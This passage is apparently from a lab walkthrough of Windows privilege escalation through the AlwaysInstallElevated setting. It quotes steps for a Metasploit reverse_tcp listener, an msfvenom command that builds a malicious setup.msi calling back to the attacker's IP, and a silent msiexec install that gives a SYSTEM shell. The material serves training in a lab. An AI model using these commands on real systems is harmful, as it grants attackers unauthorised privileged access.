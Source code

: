 > 2. In Metasploit (msf > prompt) type: use multi/handler
> 3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
> 4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
> 5. In Metasploit (msf > prompt) type: run
> 6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
> 7. Copy the generated file, setup.msi, to the Windows VM.
> 
> Windows VM
> 
> 1.Place ‘setup.msi’ in ‘C:\Temp’.
> 2.Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi
> 
> Enjoy your shell! :)


##### Detection
How we said before, we check the **AlwaysInstallElevated** value of the two interested registries:

![AlwaysInstallElevated](/assets/img/posts/windows-privesc/task4/always_enabled_register.png)


##### Exploitation

The idea of the exploitation in this challenge is to replace the **setup.msi** in the **C:\Temp** with a malicious file. In this way, when we use the ```msiexec``` command (that is used for installing MSI and MSP packages) we can execute our file and obtain the system access.

To exploit this vulnerability, on our Kali Machine we set a metasploit listener needed to obtain a reverse shell: